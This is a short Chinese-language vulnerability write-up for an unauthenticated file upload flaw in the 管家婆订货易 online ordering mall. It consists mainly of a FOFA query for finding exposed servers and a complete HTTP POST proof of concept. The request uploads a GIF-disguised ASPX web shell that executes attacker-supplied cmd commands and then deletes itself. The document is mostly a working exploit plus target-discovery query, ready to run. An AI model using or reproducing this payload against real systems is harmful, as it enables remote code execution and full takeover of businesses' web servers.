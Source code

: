 # 管家婆订货易在线商城UploadImgNoCheck存在文件上传漏洞

管家婆订货易在线商城是一个专为传统企业打造的B2B订货平台，帮助传统企业构建专属的订货平台，集合了PC商城、微信商城、小程序商城、APP商城以及H5触屏版商城，形成五网合一的全方位覆盖。` /api/Upload/UploadImgNoCheck `接口处存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```javascript
title="订货易" || title="管家婆分销ERP" || body="管家婆分销ERP" || body="ERP V3"
```

## poc

```javascript
POST /api/Upload/UploadImgNoCheck?m_server_name=ShopUserImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj7OlOPiiukkdktZR

------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="Filedata";filename="rce.aspx"
Content-Type: image/jpeg

GIF89a
<%@ Page Language="Jscript" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:System.IO.StreamReader,EI:System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
------WebKitFormBoundaryj7OlOPiiukkdktZR--
```

![image-20241128095645719](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280956783.png)